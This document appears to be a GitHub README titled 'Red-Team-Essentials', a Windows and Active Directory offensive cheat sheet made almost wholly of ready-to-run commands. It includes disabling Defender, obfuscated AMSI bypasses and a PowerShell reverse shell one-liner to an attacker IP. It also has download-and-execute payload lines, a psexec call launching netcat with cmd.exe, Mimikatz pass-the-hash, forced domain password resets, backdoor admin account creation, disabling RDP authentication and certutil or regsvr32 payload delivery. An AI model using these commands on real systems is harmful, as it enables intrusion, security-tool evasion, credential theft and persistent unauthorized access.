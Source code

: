 # Red-Team-Essentials

## Disable Defender 

```Powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
 
## Services and startname 

```Powershell
 Get-WmiObject win32_service | format-Table name, startname, startmode
```

## Fore-Change PAssword - generic All 

```Powershell
Set-DomainObjectOwner -Identity stgadm -OwnerIdentity hexninja
Add-DomainObjectAcl -TargetIdentity stgadm -PrincipalIdentity hexninja
$newpass = ConvertTo-SecureString -String 'Password123! -AsPlainText -Force
Set-DomainUserPassword -Identity stgadm -AccountPassword $newpass
```

## Powershell Reverse Shell one Liner (AMSI Bypass)

```Powershell
$ip='192.168.1.114';$port=1337;$client = New-Object System.Net.Sockets.TCPClient -ArgumentList $ip, $port;$s = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};$l = "lol";Set-alias $l ([char]105 + [char]101 + [char]120);while(($i = $s.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (lol $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$s.Write($sendbyte,0,$sendbyte.Length);$s.Flush()};$client.Close()
```

## AMSI Bypass (Modified Version) - Credit to Matt Graebers Reflection method 
```Powershell
$l = "MSAislolmlola";$s=($l[$true-13] + 'ystem.' + $l[$true-14] + 'anagement.' + $l[$true-12] + 'utomation.' + $l[$true-12] + [char]109 + [char]115 + [char]105 + 'Utils');$k=($l[$true-2] + [char]109 + [char]115 + [char]105 + 'InitFailed');[Ref].Assembly.GetType($s).GetField($k,'NonPublic,Static').SetValue($null,$true)
```

## Powershell Download in V4 and V5

```Powershell
 Invoke-WebRequest "http://10.10.15.58/hex.ps1" -OutFile "C:\Windows\TEMP\hex.ps1" 
 ```
 
 ## Ptt using mimikatz
 
```Powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:admin /domain:xyz.local /ntlm:ce03434e2f83b99704a631ae56e2146e /run:powershell.exe"'
```
 
 ## psexec 
 ```Powershell
./ps.exe \\\localip -h -accepteula -u username -p password cmd /c 'C:\nc.exe 192.168.50.138 4444 -e cmd.exe'
 ```
 
## Check Powershell Version 

```Powershell
 $PSVersionTable.PSVersion
```

## Download File Powershell V2 

```Powershell
(New-Object Net.WebClient).DownloadFile('http://10.10.15.58/powerview.ps1', 'C:\users\someuser\Desktop\powerview.ps1') 
```

## Download Execute Powershell One Liner 

```Powershell
powershell -exec bypass IEX (New-Object Net.WebClient).DownloadString('http://10.10.15.58/payload.ps1')
```

## AMSI Bypass

```Powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

## Execute this on target machine if you get rdesktop's Cred SSP Error while using remotedesktop

```Cmd
 reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
 ```
 
 ## Remote desktop login through domain user credentials 
 
 ```sh
 xfreerdp /u:username /d:adcorp.local /p:"passwordxyz" /v:TARGETIP
 ```
 
 ## Download Execute powershell
 
 ```Cmd
 powershell -exec bypass -c "(New-Object Net.WebClient).Proxy.Credentials=[Net.CredentialCache]::DefaultNetworkCredentials;iwr('http://10.10.15.58/payload.ps1')|iex"
 ```
 
 ## Pivoting using sshutle when you have rsa keys 

```sh
sshuttle -r root@TARGETIP -e "ssh -i rsa" TARGETIPRANGE.0/24
```

 ## Adding user on windows cmd line & adding it to local admin group 
 
```Cmd
net user hexninja lolbr654$@123 /ADD
net localgroup administrators hexninja /ADD
```

 ## CertUtil Download remote file
 
 ```cmd
certutil.exe -urlcache -f http://yourip/malicious.exe malicious.exe
```

## CertUtil decode base64

```cmd
certutil -decode malexecbase.b64 malexecutable.exe
```

## regsvr32 to execute malcious dll 

```cmd
regsvr32 /s /u .\exploit.dll
```

## Net1 (you read it right; it's not net) - available functions similar to net

```cmd
Net1 localgroup administrators
Net1 users
```

## Where utility to search for config files and everything 

```cmd
Examples:
    WHERE /?
    WHERE myfilename1 myfile????.*
    WHERE $windir:*.*
    WHERE /R c:\windows *.exe *.dll *.bat
    WHERE /Q ??.???
    WHERE "c:\windows;c:\windows\system32:*.dll"
    WHERE /F /T *.dll
```

